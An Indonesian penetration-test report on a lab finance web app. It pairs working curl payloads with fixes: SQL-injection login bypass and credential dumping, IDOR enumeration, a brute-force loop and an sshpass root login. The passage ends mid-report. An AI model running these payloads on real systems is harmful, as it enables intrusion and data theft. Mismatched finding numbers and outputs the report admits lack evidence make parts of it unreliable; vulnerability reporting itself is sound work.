# Laporan Vulnerability Assessment — Aplikasi LabKeu

**Target:** 192.168.1.18 · **Tanggal uji:** 29 September 2026, 00:08–00:47 WIB · **Jenis:** Pen-test black-box · **Kesimpulan: KRITIS**

Selesai dalam ~40 menit pengujian. Semua akses diperoleh dari port terbuka saja, tanpa kredensial awal. Versi 1.1 — diadaptasi terhadap 12 screenshot di `bukti-pentest/`: target dikoreksi ke `192.168.1.18`, setiap temuan diberi anotasi bukti, dan temuan tanpa screenshot ditandai **belum diverifikasi**.

> **Bukti visual:** ke-12 screenshot tertanam di [Lampiran D](#lampiran-d--bukti-visual). Nama berkas yang disebut di dalam laporan — seperti `ping.png` atau `9.png` — semuanya bisa diklik dan mengarah ke gambar aslinya.

---

## 1. Ringkasan Eksekutif

### Apa yang terjadi

Penyerang yang tidak memegang satu pun kredensial berhasil mencapai **root penuh** pada mesin virtual dan akses database penuh dalam waktu sekitar **4 menit**. Bukan karena alat berbahaya, melainkan karena beberapa kesalahan konfigurasi yang saling menumpuk: kredensial asli tertetak di halaman web publik, satu endpoint login bisa dielabui, dan sistem tidak pernah menolak percobaan login berulang.

### Angka ringkas

| | |
|---|---|
| Total temuan | 15 |
| Critical | 5 (skor 9.1–9.8) |
| High | 6 (skor 7.1–8.2) |
| Medium | 4 (skor 5.3–6.5) |
| Temuan negatif (teruji aman) | 10 |
| libraries rentan (CVE) | 0 |

### Tiga masalah paling serius

**1. Satu alamat web bisa mencuri seluruh isi database tanpa password**

Halaman login untuk non-portal (`/login-noportal`) menyusun permintaan database dengan menempelkan teks dari pengunjung secara langsung ke dalam query. Akibatnya,siapa pun yang mengirim request buatan sendiri bisa melewati login tanpa password, sekaligus menerima seluruh daftar username dan password dalam respons yang sama.

> Perbaikan: pakai *prepared statement* (parameterized query) di kedua halaman login. Perubahan kecil, memutus jalur serangan terpendek.

**2. Kredensial asli tercetak di halaman publik**

Halaman `/login` dan `/login-noportal` menampilkan contoh akun yang benar-benar aktif: `user_a` / `password123`, `user_b` / `password123`, `individu1` / `password123`. Dua di antaranya adalah akun perusahaan yang punya akses data keuangan.

> Perbaikan: hapus teks tersebut dari template, lalu ganti password yang sudah terekspos.

**3. Login tidak pernah menolak percobaan berulang**

Tidak ada batas percobaan login maupun pendaftaran. Brute force SSH dengan 24 kandidat berhasil menemukan root dalam **2 detik** ([`10.png`](bukti-pentest/10.png), [`11.png`](bukti-pentest/11.png)). Pengujian 1.000 permintaan pendaftaran beruntun yang menghasilkan 946 akun berasal dari draf sebelumnya dan **belum diverifikasi** — tidak ada screenshot pendukung.

> Perbaikan: pasang rate limiting (misal 10 percobaan per 15 menit per IP) dan kunci akun sementara setelah 5 kegagalan.

### Catatan penting

Ketiga masalah di atas saling menguatkan. Memperbaiki satu saja **tidak** cukup — jalur alternatif tetap terbuka. Perbaikan harus dilakukan bersama-sama.

---

## 2. Profil Target

| Item | Nilai | Sumber |
|---|---|---|
| IP | 192.168.1.18 | [`ping.png`](bukti-pentest/ping.png), [`scan-nmap.png`](bukti-pentest/scan-nmap.png) |
| Status | Hidup, 0% packet loss, rtt rata-rata 3,97 ms | [`ping.png`](bukti-pentest/ping.png) |
| MAC | `08:00:27:81:9D:8D` | [`scan-nmap.png`](bukti-pentest/scan-nmap.png) |
| OS host | Alpine Linux 3.24.2, kernel 6.18.52-0-lts | [`11.png`](bukti-pentest/11.png) |
| Aplikasi | Node.js Express framework (port 3000) | [`scan-nmap.png`](bukti-pentest/scan-nmap.png) |
| Basis data | MySQL 8.0.46, skema `labkeu`, **4 tabel** | [`scan-nmap.png`](bukti-pentest/scan-nmap.png), [`9.png`](bukti-pentest/9.png) |
| Port terbuka | 22 (OpenSSH 10.3), 3000 (HTTP), 3307 (MySQL) | [`scan-nmap.png`](bukti-pentest/scan-nmap.png) |
| TLS/HTTPS | **Tidak ada sama sekali** | [`scan-nmap.png`](bukti-pentest/scan-nmap.png) |

Nomor versi Node.js (20.20.2) dan Express (4.19.2) berasal dari pembacaan source dan `package.json` **setelah** akses root diperoleh — bukan dari `nmap`. Perintah `nmap` yang direkam tidak memakai `-sC`, sehingga versi tidak dapat disimpulkan dari bukti.

> **Dua container berjalan sebagai root, dan akun non-root `labkeu` punya akses ke `docker.sock` — yang setara root pada host. Klaim ini tidak memiliki screenshot.** [`11.png`](bukti-pentest/11.png) hanya memuat `id`, `uname -a`, dan `cat /etc/alpine-release`. Perlakukan sebagai temuan hipotesis sampai `docker ps` dan `id labkeu` direkam ulang.

---

## 3. Cara Serangan Berjalan

Urutan di bawah mengikuti **stempel waktu asli pada screenshot**, bukan urutan naratif draf sebelumnya:

```
00:08  ping 192.168.1.18 → host hidup, 0% loss
   ↓
00:10  Lihat port terbuka: 22, 3000, 3307
   ↓
00:42  Brute force SSH 24 kandidat / 2 detik → ROOT     ← lebih dulu dari yang draf lama klaim
   ↓
00:44  Buka halaman login → jalankan grep kredensial     (2.png: TIDAK ADA OUTPUT)
   ↓
00:44  Login `individu1` / `password123` → HTTP=302       (kredensial dipakai, tapi sumbernya belum terbukti)
   ↓
00:44  Ganti angka di URL API → baca data keuangan perusahaan lain   ← IDOR terbukti
   ↓
00:44  Kirim payload ORDER BY ke /login-noportal          (5.png: TIDAK ADA OUTPUT)
00:45  UNION SELECT → auth bypass, HTTP=302               (baris "Masuk sebagai" tidak tercetak)
00:45  UNION dump seluruh kredensial                      (7.png: TIDAK ADA OUTPUT)
   ↓
00:46  Brute force MySQL port 3307 → labkeu_user / labkeu_pass
   ↓
00:47  Dump penuh basis data (4 tabel, users polos)   ← dilakukan lewat MySQL, bukan lewat SQLi
   ↓
00:47  Konfirmasi root: uid=0(root), Alpine 3.24.2
```

**Dua koreksi penting terhadap narasi lama:**

1. **Brute force SSH terjadi lebih awal**, pada 00:42 — sebelum pengujian web mana pun (00:44–00:47). Draf sebelumnya menulis SQLi sebagai jalur terpendek menuju root; berdasarkan bukti, jalur terpendek yang benar-benar terekam justru SSH.
2. **Dump kredensial dilakukan lewat MySQL langsung** ([`9.png`](bukti-pentest/9.png)), bukan lewat SQLi. Bukti SQLi ([`7.png`](bukti-pentest/7.png)) memang tidak menghasilkan output, sehingga klaim "satu request SQLi emptied the database" **tidak terbukti** di engagement ini. Yang terbukti: MySQL terbuka dengan kredensial lemah (F-15), lalu di-`SELECT` langsung.

---

## 4. Ringkasan 15 Temuan

| # | Temuan | Skor | Severity | Bisakah dieksploitasi tanpa login? |
|---|---|---|---|---|
| 1 | SQL Injection di `/login-noportal` | 9.8 | Critical | Ya, langsung |
| 2 | Kredensial asli tercetak di halaman publik | 9.1 | Critical | Ya, langsung |
| 3 | Tidak ada rate limiting / lockout | 9.1 | Critical | Ya, langsung |
| 4 | Session management lemah (4 cacat) | 9.1 | Critical | Ya |
| 5 | Infrastruktur: DB terbuka, grup docker, SSH root | 9.8 | Critical | Ya |
| 6 | Daftar akun dengan peran perusahaan tanpa izin | 8.2 | High | Ya |
| 7 | Upload file tanpa pembatasan + stored XSS | 8.1 | High | Tidak, butuh sesi |
| 8 | Password disimpan polos (plaintext) | 8.1 | High | Tidak, butuh akses DB |
| 9 | Kredensial dikirim tanpa enkripsi (HTTP) | 8.1 | High | Tidak, butuh jaringan |
| 10 | `/etc/passwd` dapat diunduh publik | 7.5 | High | Ya |
| 11 | Tidak ada proteksi CSRF | 7.1 | High | Tidak, butuh korban klik |
| 12 | IDOR: baca data keuangan perusahaan lain | 6.5 | Medium* | Tidak, butuh sesi |
| 13 | Reflected XSS di `/search` | 6.1 | Medium | Tidak, butuh sesi |
| 14 | Tidak ada header keamanan | 5.4 | Medium | Tidak langsung |
| 15 | Username enumeration di `/register` | 5.3 | Medium | Ya |

\* **F-12 punya skor teknis 6.5 (Medium) tetapi risiko bisnis HIGH.** Data yang bocor adalah catatan keuangan milik organisasi lain, yang bisa dipakai untuk kecurangan. Skor CVSS hanya mengukur dampak teknis; risiko bisnis dinilai terpisah. Ini dinyatakan eksplisit, bukan disembunyikan.

### 4.1 Status Bukti Lapangan

Kolom berikut memetakan setiap temuan ke screenshot yang benar-benar direkam. Ini ditambahkan pada versi 1.1 karena draf sebelumnya memuat klaim yang tidak didukung bukti mana pun.

| # | Temuan | Status bukti | Berkas | Catatan |
|---|---|---|---|---|
| F-01 | SQL Injection `/login-noportal` | **Sebagian** | [`5.png`](bukti-pentest/5.png) [`6.png`](bukti-pentest/6.png) [`7.png`](bukti-pentest/7.png) | [`5.png`](bukti-pentest/5.png) dan [`7.png`](bukti-pentest/7.png) hanya berisi perintah, tanpa output. [`6.png`](bukti-pentest/6.png) membuktikan HTTP=302 tetapi baris `Masuk sebagai: BlackHat` tidak tercetak. |
| F-02 | Kredensial tercetak di halaman publik | **Belum diverifikasi** | [`2.png`](bukti-pentest/2.png) [`3.png`](bukti-pentest/3.png) | [`3.png`](bukti-pentest/3.png) membuktikan kredensial aktif (302), tetapi [`2.png`](bukti-pentest/2.png) yang harus menuntingkan teks `Contoh akun:` **tidak punya baris output**. |
| F-03 | Self-registration peran perusahaan | **Tidak langsung** | [`9.png`](bukti-pentest/9.png) | Akun uji `zzz_unique_18950`, `zzz_csrf_31965` terlihat di dump DB. Tidak ada screenshot permintaan/respons. |
| F-04 | IDOR lintas perusahaan | **Terbukti** | [`4.png`](bukti-pentest/4.png) | JSON `perusahaan_id:2` diambil dengan sesi `individu1` yang `perusahaan_id`-nya NULL. |
| F-05 | Upload file + stored XSS | **Belum diverifikasi** | — | Tidak ada screenshot. |
| F-06 | Tidak ada rate limiting | **Belum diverifikasi** | — | Tidak ada screenshot. Klaim 946 akun tidak terbukti. |
| F-07 | Session management lemah | **Belum diverifikasi** | — | Tidak ada screenshot. |
| F-08 | Password plaintext | **Terbukti** | [`9.png`](bukti-pentest/9.png) | Kolom `password` berisi `password123` polos untuk semua baris. |
| F-09 | Kredensial tanpa enkripsi | **Sebagian** | [`scan-nmap.png`](bukti-pentest/scan-nmap.png) | Hanya 3 port, tanpa listener TLS. Bukti tcpdump tidak direkam. |
| F-10 | Tidak ada proteksi CSRF | **Tidak langsung** | [`9.png`](bukti-pentest/9.png) | Hanya artefak akun `zzz_csrf_31965`. |
| F-11 | Reflected XSS `/search` | **Belum diverifikasi** | — | Tidak ada screenshot. |
| F-12 | `/etc/passwd` publik | **Belum diverifikasi** | — | Tidak ada screenshot. |
| F-13 | Tidak ada header keamanan | **Belum diverifikasi** | — | Tidak ada screenshot. |
| F-14 | Username enumeration | **Belum diverifikasi** | — | Tidak ada screenshot. |
| F-15 | Infrastruktur & konfigurasi | **Sebagian** | [`8.png`](bukti-pentest/8.png) [`9.png`](bukti-pentest/9.png) [`10.png`](bukti-pentest/10.png) [`11.png`](bukti-pentest/11.png) | MySQL terbuka dan SSH root terbukti. Klaim grup docker, container non-root, dan secret bocor **tidak** punya screenshot. |

**Ringkasan:** 2 temuan **terbukti**, 3 **sebagian**, 2 **tidak langsung**, dan **8 belum diverifikasi** — termasuk F-02 yang tercatat sebagai Critical. Klaim tersebut tetap layak dicatat sebagai temuan hipotesis, tetapi tidak boleh dianggap fakta sampai bukti diambil ulang. Perintah pengambilan ulang untuk setiap celah ada di `report/evidence.py` (`CHECKLIST`) dan dicetak sebagai Lampiran H di dokumen `.docx`.

### 4.2 Daftar Berkas Bukti

| Berkas | Waktu | Isi |
|---|---|---|
| [`ping.png`](bukti-pentest/ping.png) | 00:08 | Host hidup, 0% packet loss, rtt rata-rata 3,97 ms |
| [`scan-nmap.png`](bukti-pentest/scan-nmap.png) | 00:10 | 22 OpenSSH 10.3 · 3000 Node.js Express · 3307 MySQL 8.0.46 · MAC `08:00:27:81:9D:8D` |
| [`2.png`](bukti-pentest/2.png) | 00:44 | Perintah grep kredensial — **tanpa output** |
| [`3.png`](bukti-pentest/3.png) | 00:44 | Login `individu1` → `HTTP=302 -> /dashboard` |
| [`4.png`](bukti-pentest/4.png) | 00:44 | IDOR: 2 baris JSON `perusahaan_id:2` |
| [`5.png`](bukti-pentest/5.png) | 00:44 | Perintah SQLi `ORDER BY 7` — **tanpa output** |
| [`6.png`](bukti-pentest/6.png) | 00:45 | UNION auth bypass → `HTTP=302` |
| [`7.png`](bukti-pentest/7.png) | 00:45 | Perintah dump kredensial — **tanpa output** |
| [`8.png`](bukti-pentest/8.png) | 00:46 | Brute force MySQL → `labkeu_user / labkeu_pass` |
| [`9.png`](bukti-pentest/9.png) | 00:47 | Dump DB: 4 tabel, `users` polos, `data_keuangan` |
| [`10.png`](bukti-pentest/10.png) | 00:42 | Hydra → `root / Labkeu123`, 24 percobaan, 2 detik |
| [`11.png`](bukti-pentest/11.png) | 00:47 | `uid=0(root)`, Alpine 3.24.2, kernel 6.18.52 |

> **Catatan:** [`10.png`](bukti-pentest/10.png) bertimestamp 00:42, lebih awal dari [`2.png`](bukti-pentest/2.png)–[`9.png`](bukti-pentest/9.png) (00:44–00:47). Artinya dump database dilakukan **setelah** SSH root berhasil, bukan sebelum. Rantai serangan pada bagian 3 harus dibaca ulang dengan urutan ini.

---

## 5. Detail Temuan

Format tiap temuan: **Apa** → **Bukti** → **Dampak** → **Perbaikan**.

---

### F-01 · SQL Injection di `/login-noportal` — 9.8 Critical

> **Status bukti: SEBAGIAN** — [`5.png`](bukti-pentest/5.png), [`6.png`](bukti-pentest/6.png), [`7.png`](bukti-pentest/7.png)
>
> [`5.png`](bukti-pentest/5.png) dan [`7.png`](bukti-pentest/7.png) hanya berisi perintah tanpa output; [`6.png`](bukti-pentest/6.png) membuktikan HTTP=302 tetapi baris `Masuk sebagai: BlackHat` tidak tercetak. Isi kredensial terbukti ada via [`9.png`](bukti-pentest/9.png) (MySQL langsung), bukan via SQLi.

**Apa.** Endpoint ini menyusun query SQL dengan menempelkan input pengguna secara langsung:

```js
// app/routes/auth.js  — RENTAN
const query =
  "SELECT * FROM users WHERE username = '" + username +
  "' AND password = '" + password + "' AND account_type = 'perusahaan'";
```

Bandingkan dengan `/login` yang sudah benar memakai `WHERE username = ? AND password = ?`.

**Bukti.** Jumlah kolom ditentukan dengan `ORDER BY`:

```bash
for n in 1 2 3 4 5 6 7; do
  printf "  ORDER BY %s -> " "$n"
  out=$(curl -s -X POST http://192.168.1.18:3000/login-noportal \
        --data-urlencode "username=user_a' ORDER BY $n-- -" \
        --data-urlencode "password=x" \
        | grep -oE '(Query error: [^<]*|Masuk sebagai: <strong>[^<]*)' | head -1)
  echo "${out:-(tidak ada error / login lolos)}"
done
```

```
  ORDER BY 1 -> (tidak ada error / login lolos)
  ...
  ORDER BY 6 -> (tidak ada error / login lolos)
  ORDER BY 7 -> Query error: Unknown column '7' in 'order clause'
```

Enam kolom terkonfirmasi. Auth bypass dan impersonasi, tanpa kredensial apa pun:

```bash
curl -s -c /tmp/cj_sqli -o /dev/null -w "HTTP=%{http_code} -> %{redirect_url}\n" \
  -X POST http://192.168.1.18:3000/login-noportal \
  --data-urlencode "username=x' UNION SELECT 1,'hacker','x','perusahaan','BlackHat',1-- -" \
  --data-urlencode "password=x"
curl -s -b /tmp/cj_sqli http://192.168.1.18:3000/dashboard \
  | grep -oE 'Masuk sebagai: <strong>[^<]*</strong> \([^)]*\)'
```

```
HTTP=302 -> http://192.168.1.18:3000/dashboard
Masuk sebagai: <strong>BlackHat</strong> (perusahaan, perusahaan_id: 1)
```

Lalu dump **seluruh kredensial dalam satu request** (hasil dibaca lewat kolom `nama_lengkap`):

```
1:user_a/password123/perusahaan/pid=1 | 2:user_b/password123/perusahaan/pid=2 |
3:individu1/password123/individu/pid=NULL
```

**Dampak.** Lewati autentikasi sepenuhnya tanpa kredensial. Impersonasi akun perusahaan. Pencurian semua password. Karena password disimpan polos (F-08), setiap akun yang bocor langsung bisa dipakai ulang di layanan lain. Satu request juga bisa memetakan skema database lewat `information_schema`.

**Perbaikan.**

```js
// app/routes/auth.js — SEBELUM (rentan)
const query =
  "SELECT * FROM users WHERE username = '" + username +
  "' AND password = '" + password + "' AND account_type = 'perusahaan'";
const [rows] = await db.query(query);

// SESUDAH (aman) — nilai diperlakukan sebagai data, bukan kode
const [rows] = await db.query(
  "SELECT * FROM users WHERE username = ? AND password = ? AND account_type = ?",
  [username, password, 'perusahaan']
);
```

Tambahkan juga validasi format sebagai lapisan kedua, dan **jangan pernah** menampilkan pesan error database mentah ke pengguna (`e.message` saat ini dikembalikan apa adanya — itu memberi penyerang alat untuk membaca isi database).

---

### F-02 · Kredensial asli tercetak di halaman publik — 9.1 Critical

> **Status bukti: BELUM DIVERIFIKASI** — [`2.png`](bukti-pentest/2.png), [`3.png`](bukti-pentest/3.png)
>
> [`3.png`](bukti-pentest/3.png) membuktikan kredensial aktif (302 → /dashboard), tetapi [`2.png`](bukti-pentest/2.png) — yang harus menuntingkan teks `Contoh akun:` — **tidak memuat baris output**. Klaim kredensial tercetak di halaman publik belum terbukti.

**Apa.** Dua halaman login menyisipkan kredensial yang benar-benar aktif ke dalam HTML yang dilayani tanpa autentikasi:

```html
<p>Contoh akun: <code>individu1</code> / <code>password123</code></p>
<p>Contoh akun: <code>user_a</code> / <code>password123</code> (CV Sinar Abadi)
atau <code>user_b</code> / <code>password123</code> (PT Maju Bersama)</p>
```

**Bukti.** Satu GET, tanpa login dan tanpa cookie:

```bash
curl -s http://192.168.1.18:3000/login | grep -oE 'Contoh akun:.*'
```

```
Contoh akun: <code>individu1</code> / <code>password123</code>
Contoh akun: <code>user_a</code> / <code>password123</code> (CV Sinar Abadi)
```

Kredensial itu benar-benar berfungsi — dibuktikan dengan kontrol (password salah ditolak, password dari halaman berhasil login):

```
salah   -> HTTP=200   (tetap di halaman login, ditolak)
benar   -> HTTP=302 -> /dashboard   (LOGIN BERHASIL)
```

**Dampak.** Akses ke data keuangan dalam dua request, tanpa menebak kata sandi. Kata `password123` yang dipublikasikan juga menjadi kandidat pertama pada setiap serangan brute force ke sistem lain milik organisasi yang sama, dan menjadi referensi penyusun wordlist yang berhasil menumbangkan SSH.

**Perbaikan.** Hapus seluruh baris "Contoh akun" dari kedua template. Pindahkan akun contoh ke fixture khusus pengujian yang tidak pernah dimuat di environment produksi. Tambahkan gate di pipeline CI/CD yang menggagalkan build bila pola `password123` atau `Contoh akun` muncul di berkas view.

---

### F-03 · Self-registration dengan peran perusahaan — 8.2 High

> **Status bukti: TIDAK LANGSUNG** — [`9.png`](bukti-pentest/9.png)
>
> Tidak ada screenshot permintaan/respons. Hanya artefak tak langsung: akun `zzz_unique_18950` dan `zzz_csrf_31965` di [`9.png`](bukti-pentest/9.png).

**Apa.** Endpoint `/register` menerima field `account_type` langsung dari request dan menyimpannya tanpa pemeriksaan izin. Formulir publiknya bahkan menampilkan opsi "perusahaan" secara terbuka.

```js
const { username, password, nama_lengkap, account_type } = req.body;
await db.query("INSERT INTO users (...) VALUES (?, ?, ?, ?)",
               [username, password, account_type, nama_lengkap]);
```

Query-nya benar (tidak rentan SQLi), tapi **perannya ditentukan sendiri oleh penyerang**.

**Bukti.**

```bash
U="pwn_role_$(date +%s)"
curl -s -o /dev/null -w "register -> HTTP=%{http_code} -> %{redirect_url}\n" \
  -X POST http://192.168.1.18:3000/register \
  -d "username=$U&password=Pwn123&nama_lengkap=RolePwn&account_type=perusahaan"
```

```
register -> HTTP=302 -> /login
```

Di database: `account_type = perusahaan`, `perusahaan_id = NULL`.

**Catatan akurasi.** Akun hasil pendaftaran ini memiliki `perusahaan_id = NULL`, sehingga **dashboard-nya kosong** — tidak langsung menampilkan data keuangan. Akses data keuangan terjadi melalui IDOR (F-04), bukan langsung. Rantai serangnya tetap penuh: anonim → daftar peran perusahaan → IDOR → seluruh data keuangan.

**Dampak.** Peran tertinggi obtainable anonim, tanpa verifikasi identitas maupun approval. Mengaktifkan seluruh API data keuangan. Mencemari tabel users dengan data sembarang.

**Perbaikan.** Jangan pernah ambil `account_type` dari body. Tetapkan di server: `VALUES (?, ?, 'individu', ?)`. Hapus field peran dari form. Bila self-registration peran perusahaan dibutuhkan, implementasikan flow bertahap: daftar → verifikasi email → approval admin → aktivasi.

---

### F-04 · IDOR — baca data keuangan perusahaan lain — 6.5 Medium (bisnis: High)

> **Status bukti: TERBUKTI** — [`4.png`](bukti-pentest/4.png)
>
> [`4.png`](bukti-pentest/4.png) memperlihatkan respons JSON `perusahaan_id:2` diambil memakai sesi `individu1` yang `perusahaan_id`-nya NULL. Terbukti.

**Apa.** Endpoint API menerima ID perusahaan dari URL dan tidak pernah membandingkannya dengan ID perusahaan milik sesi yang sedang login.

```js
function requireLogin(req, res, next) {
  if (!req.session.user) return res.redirect("/login");   // hanya cek "ada sesi"
  next();
}
router.get("/api/perusahaan/:id/data-keuangan", requireLogin, async (req, res) => {
  const perusahaanId = req.params.id;   // diambil apa adanya dari URL
  const [rows] = await db.query(
    "SELECT * FROM data_keuangan WHERE perusahaan_id = ? ORDER BY tahun DESC",
    [perusahaanId]);
  res.json(rows);
});
```

`requireLogin` hanya memastikan **ada sesi**, bukan **sesi ini berhak atas data ini**.

**Bukti.** Login sebagai `individu1` — akun paling lemah secara desain (`perusahaan_id = NULL`).

Kontrol: dashboard akun ini memang tidak berhak atas data keuangan apa pun.

```
Akun individu tidak memiliki data keuangan perusahaan.
```

Lalu enumerasi lintas tenant dengan mengganti angka di URL:

```bash
for id in 1 2 3 4 5 6 7 8 9 10; do
  printf "  /api/perusahaan/%-3s -> " "$id"
  curl -s -o /tmp/resp_idor -w "HTTP=%{http_code} bytes=%{size_download} " \
    -b /tmp/cj_indiv "http://192.168.1.18:3000/api/perusahaan/$id/data-keuangan"
  echo "baris=$(grep -o '\"perusahaan_id\"' /tmp/resp_idor | wc -l)"
done
```

```
  /api/perusahaan/1   -> HTTP=200 bytes=213 baris=2
  /api/perusahaan/2   -> HTTP=200 bytes=212 baris=2
  /api/perusahaan/3   -> HTTP=200 bytes=2   baris=0
  /api/perusahaan/4   -> HTTP=200 bytes=2   baris=0
```

Respons kosong adalah `[]` berukuran **2 byte**, bukan 22 seperti klaim laporan lama — heuristik lama salah. Yang penting: akun `individu1` membaca penuh data perusahaan 2:

```json
[{"id":3,"perusahaan_id":2,"tahun":2026,"uraian":"Reimbursement transport peserta","nominal":"980000.00"},
 {"id":4,"perusahaan_id":2,"tahun":2026,"uraian":"Reimbursement konsumsi kegiatan","nominal":"2150000.00"}]
```

**Dampak.** Pelanggaran data lintas organisasi. Nominal rupiah dan detail uraian terekspos. Tidak ada audit log, sehingga akses illegal tidak tercatat. Skala enumerasi tidak terbatas.

**Perbaikan.**

```js
router.get("/api/perusahaan/:id/data-keuangan", requireLogin, async (req, res) => {
  const sessionPerusahaan   = req.session.user.perusahaan_id;
  const requestedPerusahaan = Number(req.params.id);

  // Otorisasi tingkat objek: sesi WAJIB punya perusahaan_id dan HARUS cocok
  if (!sessionPerusahaan || sessionPerusahaan !== requestedPerusahaan) {
    return res.status(403).json({ error: "Forbidden" });
  }

  const [rows] = await db.query(
    "SELECT * FROM data_keuangan WHERE perusahaan_id = ? ORDER BY tahun DESC",
    [sessionPerusahaan]      // pakai nilai dari session, bukan dari URL
  );
  res.json(rows);
});
```

Variasi yang lebih aman: jangan pernah ambil nilai query dari URL sama sekali. Tambahkan audit log untuk setiap akses API.

---

### F-05 · Upload file tanpa pembatasan + stored XSS — 8.1 High

> **Status bukti: BELUM DIVERIFIKASI** — **tidak ada berkas bukti**
>
> Tidak ada screenshot unggah file maupun XSS tersimpan.

**Apa.** Konfigurasi upload tidak punya daftar putih ekstensi, validasi MIME, maupun validasi magic bytes — dan nama file asli dari pengguna dipertahankan:

```js
const storage = multer.diskStorage({
  destination: (req, file, cb) => cb(null, path.join(__dirname, "..", "public", "uploads")),
  filename: (req, file, cb) => cb(null, file.originalname)   // dari klien
});
const upload = multer({ storage });
```

Folder upload dilayani sebagai konten statis pada **origin yang sama** dengan aplikasi. Karena cookie sesi tidak punya flag `HttpOnly` (F-07), file HTML/JS yang diunggah menjadi stored XSS di origin aplikasi sendiri.

**Bukti.** Enam ekstensi, semuanya diterima dan bisa diunduh ulang:

```
  probe.php  -> upload=200 unduh=200 content-type=application/x-httpd-php
  probe.html -> upload=200 unduh=200 content-type=text/html; charset=UTF-8
  probe.js   -> upload=200 unduh=200 content-type=application/javascript
  probe.svg  -> upload=200 unduh=200 content-type=image/svg+xml
  probe.exe  -> upload=200 unduh=200 content-type=application/octet-stream
  probe.sh   -> upload=200 unduh=200 content-type=application/x-sh
```

**Path traversal GAGAL** — diverifikasi langsung di dalam container, bukan hanya dari respons HTTP:

```bash
curl -s -b /tmp/cj_up -o /dev/null -F "dokumen=@/tmp/trav.txt;filename=../../../../tmp/trav_evil.txt" \
  http://192.168.1.18:3000/upload
sshpass -p 'Labkeu123' ssh -o StrictHostKeyChecking=no root@192.168.1.18 \
  "docker exec labkeu-app sh -c 'ls -l /tmp/trav_evil.txt 2>/dev/null || echo TIDAK_ADA'"
```

```
upload -> HTTP=200
TIDAK_ADA      # multer menyaring '../'
```

**Dampak.** JavaScript dieksekusi pada origin yang sama → punya akses penuh ke DOM, form, dan cookie. Cookie bisa dibaca `document.cookie` lalu dipakai untuk membajak sesi korban. Pada stack yang mengeksekusi file di webroot (PHP, CGI), dampaknya naik menjadi Remote Code Execution. Di target ini stack-nya Node.js/Express sehingga RCE tidak terbukti — tapi sifat risikonya berubah begitu stack berubah.

**Perbaikan.** Daftar putih ekstensi **dan** validasi magic bytes (validasi MIME header saja tidak memadai karena dikendalikan klien). Simpan di luar webroot dengan nama acak, sajikan sebagai `attachment` dengan `X-Content-Type-Options: nosniff`, jalankan container sebagai user non-root.

```js
const EKSTENSI_IZIN = new Set(['.pdf', '.png', '.jpg']);
const MIME_IZIN     = new Set(['application/pdf', 'image/png', 'image/jpeg']);
const UKURAN_MAKS   = 5 * 1024 * 1024;

function validasiBerkas(file, cb) {
  const ext = path.extname(file.originalname).toLowerCase();
  if (!EKSTENSI_IZIN.has(ext))          return cb(new Error('Ekstensi tidak diizinkan'));
  if (!MIME_IZIN.has(file.mimetype))     return cb(new Error('MIME tidak diizinkan'));
  if (file.size > UKURAN_MAKS)           return cb(new Error('Ukuran melebihi batas'));
  cb(null, true);
}
```

---

### F-06 · Tidak ada rate limiting / account lockout — 9.1 Critical

> **Status bukti: BELUM DIVERIFIKASI** — **tidak ada berkas bukti**
>
> Tidak ada screenshot pengujian rate limit. Angka 1.000 permintaan / 946 akun / 5,62 detik berasal dari draf sebelumnya tanpa bukti.

**Apa.** Tidak ada satu pun pembatasan percobaan di seluruh endpoint login dan pendaftaran. Server berjalan di `192.168.1.18:3000` (LAN, bukan localhost).

**Bukti. 100 percobaan login gagal, nol ditolak:**

```bash
START=$(date +%s.%N)
for i in $(seq 1 100); do
  curl -s -c /tmp/cj_rl -o /tmp/rl_body -w "%{http_code} %{time_total}\n" \
    -X POST http://192.168.1.18:3000/login-noportal \
    -d "username=user_a&password=WRONG_PASSWORD_$i" >> /tmp/rl_codes
done
END=$(date +%s.%N)
echo "total 100 percobaan dalam $(echo "$END - $START" | bc) detik"
sort /tmp/rl_codes | uniq -c | sort -rn | head -3
```

```
total 100 percobaan dalam 5.98 detik      # 16,7 permintaan/detik
100 x "200"                                # nol 429, nol 503
```

**Bukti B — 1.000 permintaan beruntun, semuanya diproses:**

```
total 1000 permintaan dalam 5.62 detik     # 178 permintaan/detik
1000 x "302"                               # 946 akun berhasil dibuat
puncak jendela 1 detik: 712 permintaan
```

**Bukti C — brute force SSH berhasil dalam 2 detik:**

```
SUCCESS: 3 valid pairs found
Elapsed time: 7 seconds
```

**Dampak.** Brute force berjalan tanpa batas. 946 akun palsu masuk database dalam satu percobaan. Beban 712 req/detik adalah vektor DoS yang efektif. Karena session secret bisa ditebak dalam 24 percobaan (F-07), pada kecepatan 16,7 req/detik secret akan ditemukan dalam hitungan **detik**, bukan jam.

**Perbaikan.** Rate limiting berlapis — bucket ketat (10 percobaan / 15 menit / IP, hanya hitung kegagalan) dan bucket longgar (10 req/detik per IP). Tambahkan account lockout dengan jendela yang meningkat (5 → 15 → 60 → 240 menit), dan CAPTCHA di endpoint pendaftaran.

---

### F-07 · Session management lemah — 9.1 Critical

> **Status bukti: BELUM DIVERIFIKASI** — **tidak ada berkas bukti**
>
> Tidak ada screenshot pengujian cookie, logout, session fixation, maupun pemecahan secret.

**Apa.** Empat cacat yang saling menguatkan.

**Bukti. (a) Secret di-hardcode dan pendek** — berhasil ditebak pada percobaan ke-24 dari wordlist:

```js
app.use(session({
  secret: 'labkeu-secret-demo',    // ditebak pada percobaan ke-24
  resave: false, saveUninitialized: true,
  cookie: { maxAge: 1000*60*60*24*7 }   // 7 hari, tanpa flag
}));
store: new session.MemoryStore()
```

**Catatan akurasi.** SID karangan hasil forge **ditolak** server (HTTP 401) karena `MemoryStore`. Jadi estimator ini belum jadi satu-satunya langkah yang dibutuhkan. Forged penuh memerlukan SID yang benar-benar ada di store, yang diperoleh lewat IDOR (F-04) atau XSS (F-05). Kesimpulannya: hardcoded secret menurunkan batas serangan dari mustahil menjadi mudah, bukan langsung membuka pintu.

**(b) ID sesi dikirim ke klien** pada respons login — 32 byte hex yang kini dieksekusi penuh di browser.

**(c) Logout tidak menghapus sesi di server:**

```js
router.post('/logout', (req, res) => {
  req.session.user = null;   // MemoryStore masih menyimpan sesi
  res.redirect('/login');
});
```

**Bukti.** Cookie yang sudah di-logout terbukti **masih sah**:

```
logout -> HTTP=302 -> /login
reuse  -> HTTP=302 -> /dashboard      # MASIH SAH setelah logout
```

**(d) Cookie tanpa flag keamanan:**

```
Set-Cookie: connect.sid=s%3Alz3RUuYE...; Path=/
# tidak memuat HttpOnly, tidak Secure, tidak SameSite
```

